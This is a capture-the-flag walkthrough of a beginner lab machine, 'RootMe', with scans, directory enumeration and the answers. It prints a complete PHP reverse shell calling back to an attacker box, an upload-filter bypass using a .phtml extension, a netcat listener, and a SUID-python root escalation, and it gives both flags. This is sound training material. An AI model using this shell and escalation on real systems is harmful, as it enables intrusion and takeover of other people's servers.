



# RootMe

## A ctf for beginners, can you root me?

### Reconnaissance
First, let's get information about the target.

#### Answer the questions below 
---

__Q__: Scan the machine, how many ports are open?

```bash
nmap -p- -sC -sV <target_machine_ip>
Starting Nmap 7.80 ( https://nmap.org ) at 2025-05-28 16:17 BST
Nmap scan report for 10.10.205.195
Host is up (0.00020s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
MAC Address: 02:83:0F:68:46:09 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.18 seconds

```
__A__:
```
2
```
__Q__: What version of Apache is running?
Has been answered already with the previous.
__A__

```
2.4.29
```
__Q__: What service is running on port 22?
Has been answered already with the previous.
```
ssh
```
__Q__: Find directories on the web server using the GoBuster tool.

__A__:
```
No answer needed
```

```bash
gobuster dir -u <target_machine_ip> -w /usr/share/wordlists/dirb/common.txt -t 32 -o gobuster_results.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <target_machine_ip>
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> <target_machine_ip>/css/]
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> <target_machine_ip>/js/]
/panel                (Status: 301) [Size: 314] [--> <target_machine_ip>/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> <target_machine_ip>/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

__Q__: What is the hidden directory?
__A__:

```
/panel/
```

### Getting a shell
Find a form to upload and get a reverse shell, and find the flag.

#### Answer the questions below 
---
__Q__: user.txt

- ___Step 1:___ Go to the server and get unimpressed


- ___Step 2:___ Go to <target_machine_ip>/panel/



- ___Step 3.1.:___ Go to Reverse Shell Generator to prep webshell
- ___Step 3.2.:___ prep shelly.php

```PHP
//<?php
// // php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
// 
// set_time_limit (0);
// $VERSION = "1.0";
// $ip = '<attack_box_ip>';
// $port = <port>;
// $chunk_size = 1400;
// $write_a = null;
// $error_a = null;
// $shell = 'uname -a; w; id; sh -i';
// $daemon = 0;
// $debug = 0;
// 
// if (function_exists('pcntl_fork')) {
// 	$pid = pcntl_fork();
// 	
// 	if ($pid == -1) {
// 		printit("ERROR: Can't fork");
// 		exit(1);
// 	}
// 	
// 	if ($pid) {
// 		exit(0);  // Parent exits
// 	}
// 	if (posix_setsid() == -1) {
// 		printit("Error: Can't setsid()");
// 		exit(1);
// 	}
// 
// 	$daemon = 1;
// } else {
// 	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
// }
// 
// chdir("/");
// 
// umask(0);
// 
// // Open reverse connection
// $sock = fsockopen($ip, $port, $errno, $errstr, 30);
// if (!$sock) {
// 	printit("$errstr ($errno)");
// 	exit(1);
// }
// 
// $descriptorspec = array(
//    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
//    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
//    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
// );
// 
// $process = proc_open($shell, $descriptorspec, $pipes);
// 
// if (!is_resource($process)) {
// 	printit("ERROR: Can't spawn shell");
// 	exit(1);
// }
// 
// stream_set_blocking($pipes[0], 0);
// stream_set_blocking($pipes[1], 0);
// stream_set_blocking($pipes[2], 0);
// stream_set_blocking($sock, 0);
// 
// printit("Successfully opened reverse shell to $ip:$port");
// 
// while (1) {
// 	if (feof($sock)) {
// 		printit("ERROR: Shell connection terminated");
// 		break;
// 	}
// 
// 	if (feof($pipes[1])) {
// 		printit("ERROR: Shell process terminated");
// 		break;
// 	}
// 
// 	$read_a = array($sock, $pipes[1], $pipes[2]);
// 	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
// 
// 	if (in_array($sock, $read_a)) {
// 		if ($debug) printit("SOCK READ");
// 		$input = fread($sock, $chunk_size);
// 		if ($debug) printit("SOCK: $input");
// 		fwrite($pipes[0], $input);
// 	}
// 
// 	if (in_array($pipes[1], $read_a)) {
// 		if ($debug) printit("STDOUT READ");
// 		$input = fread($pipes[1], $chunk_size);
// 		if ($debug) printit("STDOUT: $input");
// 		fwrite($sock, $input);
// 	}
// 
// 	if (in_array($pipes[2], $read_a)) {
// 		if ($debug) printit("STDERR READ");
// 		$input = fread($pipes[2], $chunk_size);
// 		if ($debug) printit("STDERR: $input");
// 		fwrite($sock, $input);
// 	}
// }
// 
// fclose($sock);
// fclose($pipes[0]);
// fclose($pipes[1]);
// fclose($pipes[2]);
// proc_close($process);
// 
// function printit ($string) {
// 	if (!$daemon) {
// 		print "$string\n";
// 	}
// }
// 
//?>

```

___Step 3.3.:___ Server does not fancy shelly.php



___Step 3.4.:___ Server is OK with shelly.phtml



___Step 3.5.:___ shelly.phtml now waits at <attack_box_ip>/uploads to be executed

___Step 3.6.:___ set up the listener
```bash
nc -nlvp <port>
```
___Step 3.7.1.:___ after shelly.phtml opens the door, get in politely ...
___Step 3.7.2.:___ ... ask the existential question first, and then kindly ask the other questions ...

```bash
root@ip<attack_box>:~# nc -nlvp <port>
Listening on 0.0.0.0 <port>
Connection received on <target_ip> 32788
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:13:07 up  1:01,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd 
/
$ find -name user.txt 2>/dev/null
./var/www/user.txt
$ cat /var/www/user.txt

```
... and get the answer

__A__:

```
THM{y0u_g0t_a_sh3ll}
```

### Privilege escalation
Now that we have a shell, let's escalate our privileges to root.
#### Answer the questions below
---

__Q__: Search for files with SUID permission, which file is weird?

Get an old friend's help for upward social mobility ...

``` bash
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$
bash-4.4$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
```

... who turns out to be privileged

__A__:
```
/usr/bin/python
```
__Q__: Find a form to escalate your privileges.

```
No answer needed
```

```bash
bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
# pwd
pwd
/
# ls -lh
ls -lh
total 2.1G
drwxr-xr-x   2 root root 4.0K Aug  4  2020 bin
drwxr-xr-x   3 root root 4.0K Aug  4  2020 boot
drwxr-xr-x   2 root root 4.0K Aug  4  2020 cdrom
drwxr-xr-x  15 root root 3.7K May 28 15:11 dev
drwxr-xr-x  96 root root 4.0K Aug  4  2020 etc
drwxr-xr-x   4 root root 4.0K Aug  4  2020 home
lrwxrwxrwx   1 root root   34 Aug  4  2020 initrd.img -> boot/initrd.img-4.15.0-112-generic
lrwxrwxrwx   1 root root   34 Aug  4  2020 initrd.img.old -> boot/initrd.img-4.15.0-112-generic
drwxr-xr-x  22 root root 4.0K Aug  4  2020 lib
drwxr-xr-x   2 root root 4.0K Aug  4  2020 lib64
drwx------   2 root root  16K Aug  4  2020 lost+found
drwxr-xr-x   2 root root 4.0K Feb  3  2020 media
drwxr-xr-x   2 root root 4.0K Feb  3  2020 mnt
drwxr-xr-x   2 root root 4.0K Feb  3  2020 opt
dr-xr-xr-x 112 root root    0 May 28 15:11 proc
drwx------   6 root root 4.0K Aug  4  2020 root
drwxr-xr-x  26 root root  860 May 28 15:13 run
drwxr-xr-x   2 root root  12K Aug  4  2020 sbin
drwxr-xr-x   4 root root 4.0K Aug  4  2020 snap
drwxr-xr-x   2 root root 4.0K Feb  3  2020 srv
-rw-------   1 root root 2.0G Aug  4  2020 swap.img
dr-xr-xr-x  13 root root    0 May 28 15:11 sys
drwxrwxrwt   2 root root 4.0K May 28 16:03 tmp
drwxr-xr-x  10 root root 4.0K Feb  3  2020 usr
drwxr-xr-x  14 root root 4.0K Aug  4  2020 var
lrwxrwxrwx   1 root root   31 Aug  4  2020 vmlinuz -> boot/vmlinuz-4.15.0-112-generic
lrwxrwxrwx   1 root root   31 Aug  4  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-112-generic
# cat /root/root.txt                        
cat /root/root.txt
```

__Q__: root.txt

__A__: 

```
THM{pr1v1l3g3_3sc4l4t10n}
```